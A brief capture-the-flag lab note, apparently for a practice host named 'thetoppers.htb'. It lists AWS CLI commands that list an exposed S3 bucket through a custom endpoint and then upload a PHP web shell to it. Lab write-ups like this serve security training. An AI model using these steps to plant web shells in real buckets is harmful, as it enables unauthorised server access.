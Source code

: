 
#### initial setup:
```
aws configure
```
#### list files:
```
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```
#### upload file:
```
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```

